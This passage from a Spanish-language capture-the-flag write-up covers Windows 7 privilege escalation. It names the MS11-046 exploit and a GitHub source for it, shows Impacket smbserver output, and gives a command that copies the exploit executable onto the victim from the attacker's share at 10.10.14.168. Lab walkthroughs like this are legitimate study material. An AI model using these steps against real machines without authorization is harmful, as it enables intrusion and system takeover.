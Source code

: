 - Vemos que es un Windows7  con OS Version:  6.1.7600 N/A Build 7600
Si buscamos en la red que vulnerabilidades tiene esta versión vemos que existe un Local Privilege Escalation llamado MS11-046, ahora buscamos un exploit en gibhub y lo encontramos en : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046

- Nos descargamos el .exe y lo subimos a la máquina victima.

```ruby
smbserver.py smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```
Con smbserver  creamos un recurso compartido a nivel de red identificado como smbFolder y que esta sincronizado con la ruta absoluta actual de trabajo.

- En la máquina victima nos dirigimos a `cd C:\Windows\Temp` nos creamos un directorio que lo llamaremos privesc nos metemos alli para guardar el .exe
`cd privesc` 

```ruby
C:\Windows\Temp\Privesc>copy \\10.10.14.168\smbFolder\ms11-046.exe ms11-046.exe
```
Nos copiamos el .exe con este comando
![](../assets/images/Devel/autopwn.png) 
